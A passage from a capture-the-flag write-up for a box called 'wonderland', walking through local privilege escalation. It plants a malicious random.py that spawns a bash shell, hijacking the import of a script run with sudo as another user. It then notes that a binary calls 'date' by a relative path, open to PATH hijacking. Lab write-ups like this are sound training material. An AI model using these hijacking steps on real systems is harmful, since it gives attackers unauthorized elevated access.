 * in The Script `walrus_and_the_carpenter.py` , There was nothing interesting in the python script, besides it imported a relative path "random", which can be exploited :

```python
import random 
poem = """The sun was shining on the sea,.....
....."""
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

* I decided to try to spawn a shell, by creating a file called `random.py` in the same directory as the file. The script would eventuelly run my `random.py` script, as it imported `random`.

```python
import pty                                                                                      
pty.spawn("/bin/bash")
```

List the contents of the directory to make sure the scripts are in the same directory:

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

```bash
alice@wonderland:~$nano random.py
alice@wonderland:~$sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

> To further our privileges we will try to take advantage of a binary inside “rabbit” home directory.
>
> I could now `strings` or use `cutter` to debug the program. I chose to use `strings` to being with, and it worked fine. I found `/bin/echo -n 'Probably by ' && date --date='next hour' -R` on one of the lines, which is the code the executable file is trying to run. `date` is also a relative path, so it could be exploited similar to the `random.py` exploit.

![](img/teaparty.png)
